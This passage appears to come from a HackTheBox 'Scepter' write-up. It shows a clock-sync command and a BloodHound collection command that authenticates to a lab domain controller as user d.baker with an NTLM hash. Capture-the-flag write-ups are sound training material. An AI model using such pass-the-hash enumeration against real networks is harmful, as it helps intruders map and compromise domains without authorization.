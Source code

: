 Updating clock

`ntpdate 10.10.11.65`


``
## Bloodhound Analysis

Gathering bloodhound data with `bloodhound-ce-python`

`bloodhound-ce-python -d scepter.htb -ns 10.10.11.65 -u 'd.baker' --hashes :18b5fb0d99e7a475316213c15b6f22ce --zip -c All`

![](/images/HackTheBox/HTB-Scepter/Pasted_image_20250718064838.png)

Gathering users on AD environment.

![](/images/HackTheBox/HTB-Scepter/Pasted_image_20250718070004.png)
